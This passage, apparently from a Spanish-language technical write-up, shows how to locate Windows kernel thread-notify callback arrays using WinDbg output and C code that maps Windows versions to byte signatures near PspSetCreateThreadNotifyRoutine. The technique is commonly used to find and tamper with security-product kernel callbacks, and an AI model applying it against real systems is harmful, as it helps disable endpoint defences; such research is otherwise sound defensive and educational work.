 Los bytes serán `0x48d90c8d48c03345` y tenemos que restar `0x04` para llegar a la dirección offset relativa de la matriz de callback que es `007afd3a` y leerla.

<pre>
lkd> dq fffff800`a4b54b46 L1
fffff800`a4b54b46  48d90c8d`48c03345
</pre>

<pre>
struct Offsets {
    DWORD64 process;
    DWORD64 image;
    <mark>DWORD64 thread;</mark>
    DWORD64 registry;
};

struct Offsets getVersionOffsets() {
    wchar_t value[255] = { 0x00 };
    DWORD BufferSize = 255;
    RegGetValue(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", L"ReleaseId", RRF_RT_REG_SZ, NULL, &value, &BufferSize);
    wprintf(L"[+] Windows Version %s Found\n", value);
    auto winVer = _wtoi(value);
    switch (winVer) {
        //case 1903:
    case 1909:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2004:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2009:
        return { 0x7340fe8341f63345, 0x8d48d68b48c03345, <mark>0x48d90c8d48c03345</mark>, 0x4024448948f88b48 };
    default:
        wprintf(L"[!] Version Offsets Not Found!\n");

    }

}
</pre>

Usando el mismo método que el callback del proceso necesitamos encontrar 2 funciones cercanas a `PspSetCreateThreadNotifyRoutine` para la búsqueda de bytes.

<pre>
lkd> ? nt!PspSetCreateThreadNotifyRoutine - nt
Evaluar expresión: 7686936 = 00000000`00754b18
</pre>

![Export Table](./screenshots/ExportTableThread.png)

## Llamada de retorno de imagen

La función es `nt!PsSetLoadImageNotifyRoutineEx`.
